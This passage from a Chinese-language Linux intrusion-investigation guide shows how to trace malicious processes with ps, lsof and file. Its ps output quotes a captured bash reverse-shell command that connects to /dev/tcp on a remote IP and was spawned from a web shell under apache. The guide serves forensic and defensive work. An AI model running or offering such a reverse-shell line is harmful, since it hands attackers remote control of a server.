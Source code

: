 2）启动时间

与前面找到的Webshell时间点比对。

3）启动权限

木马进程以mysql权限执行的，可以判断是通过Mysql入侵，重点排查Mysql弱口令、UDF提权等。

4）父进程

1. 菜刀中反弹Bash

```shell
[root@server]#ps -ef | grep '/dev/tcp' | grep -v grep

apache   26641  1014  0 14:59 ?        00:00:00 sh -c /bin/sh -c "cd /root/apache-tomcat-6.0.32/webapps/ROOT/;bash -i >& /dev/tcp/192.168.192.144/2345 0>&1;echo [S];pwd;echo [E]" 2>&1

[root@server]#ps -ef | grep 1014
apache    1014  1011  0 Sep19 ?        00:00:00 /usr/sbin/httpd
```

可以看到父进程为apache，就可以判断攻击者通过Web入侵。

2. lsof -p pid：查看可疑进程打开的文件

例如十字病毒，会修改ps和netstat显示的进程名称

```
udp        0      0 0.0.0.0:49937               0.0.0.0:*                               131683/ls -la

udp        0      0 0.0.0.0:47584               0.0.0.0:*                               116515/ifconfig
```

很明显的异常，ls和ifconfig不会存在监听行为。

```shell
[root@DataNode105 admin]# lsof -p 131683

COMMAND      PID USER   FD   TYPE    DEVICE SIZE/OFF     NODE NAME

hahidjqzx 131683 root  cwd    DIR      8,98     4096 18087937 /root

hahidjqzx 131683 root  rtd    DIR      8,98     4096        2 /

hahidjqzx 131683 root  txt    REG      8,98   625622 24123895 /usr/bin/hahidjqzxs
```

可疑看到真正的可执行文件是/usr/bin/hahidjqzxs

3. file：查看文件类型：

```shell
[root@server]# file .zl

zl: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.9, not stripped
```

